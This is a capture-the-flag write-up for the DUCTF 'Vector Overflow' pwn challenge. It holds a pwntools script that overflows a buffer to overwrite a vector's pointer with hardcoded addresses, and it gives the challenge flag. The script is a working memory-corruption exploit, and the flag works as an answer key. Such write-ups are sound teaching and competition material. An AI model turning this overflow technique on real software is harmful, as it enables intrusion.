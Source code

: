 # Vector Overflow

Solved by **CapangJabba**

## Question
Please overflow into the vector and control it!

## Solution
overwrite vector v pointer, points to the top of buffer with wanted value

```
from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./vector_overflow", )
elf = context.binary = ELF("./vector_overflow", checksec=False)
rop = ROP(elf)
context.log_level = 'debug'

io.sendline(b'DUCTF\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x51\x40\x00\x00\x00\x00\x00\xe5\x51\x40\x00')
io.interactive()
```

`\x00\xe0\x51\x40` top of the buffer `\xe5\x51\x40\x00` bottom buffer to make sure the size is 5


### Flag
`DUCTF{y0u_pwn3d_th4t_vect0r!!}`
